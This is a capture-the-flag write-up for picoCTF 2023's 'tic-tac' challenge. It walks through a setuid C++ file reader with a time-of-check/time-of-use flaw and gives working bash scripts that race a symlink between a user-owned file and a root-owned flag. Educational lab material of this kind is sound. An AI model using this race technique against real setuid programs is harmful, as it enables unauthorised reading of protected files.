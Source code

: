 # tic-tac - picoCTF 2023 - CMU Cybersecurity Competition
Binary Exploitation, 200 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
## tic-tac Solution

Let us connect to the SSH server as described in the challenge description:
```console
┌─[evyatar@parrot]─[/pictoctf2023/binary_exploitation/tic-tac]
└──╼ $ ssh ctf-player@saturn.picoctf.net -p 53662
ctf-player@saturn.picoctf.net's password:

Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-1031-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ ls -ltr
total 28
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16 01:30 src.cpp
-rwsr-xr-x 1 root       root       19016 Mar 16 02:28 txtreader
-rw------- 1 root       root          32 Mar 16 02:28 flag.txt
```

We can observe that there are 3 files present:
1. `txtreader` - This binary file can be used with the following command: `./txtreader <filename>`
2. `src.cpp` - This file contains the source code for the txtreader binary.
3. `flag.txt` - This file is owned by root and contains the flag.

Let's take a closer look at the `src.cpp` file:
```c++
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

We can see in the src.cpp file that it checks if we are the owner of the file. If we are, it proceeds to read the file's contents.

Our goal is to read the `flag.txt` file. Based on the source code and the challenge tags, we can utilize the Time-of-Check to Time-of-Use (TOCTOU) vulnerability (https://cwe.mitre.org/data/definitions/367.html).

We can win the race between the file owner check and the file content read. At the moment of the file owner check, we can create a file that we own. Then, we can use a symlink to link the flag file and read it.

Let's use the following scripts to implement this strategy, `race.sh`:
```bash                                                                                    Modified  
ctf-player@pico-chall$ cat race.sh
touch /home/ctf-player/myfile
while true
do
    ln -fs /home/ctf-player/flag.txt /home/ctf-player/mysym
    ln -fs /home/ctf-player/myfile /home/ctf-player/mysym
done
```

`call.sh`:
```bash
ctf-player@pico-chall$ cat call.sh
bash race.sh &
race_pid=$!

while true
do
        ./txtreader /home/ctf-player/mysym > output.txt 2>&1
        if [ "$?" -eq 0 ]; then
            out=$(cat output.txt)
            if [[ $out == "picoCTF"* ]]; then
                echo $out
                break
            fi
        fi
done

kill -9 $race_pid
```

The `race.sh` script creates a file owned by our user. Then, in a while loop, it creates a symlink called `mysym` to the flag file, and then to our file `myfile`. We need to run this script in the background.

The `call.sh` script runs the `race.sh` script in the background, then calls the txtreader binary file with our symlink. 

To run the exploit, use the following commands:
```console
ctf-player@pico-chall$ bash call.sh 
picoCTF{ToctoU_!s_3a5y_007659c9}
```

And we get the flag `picoCTF{ToctoU_!s_3a5y_007659c9}`.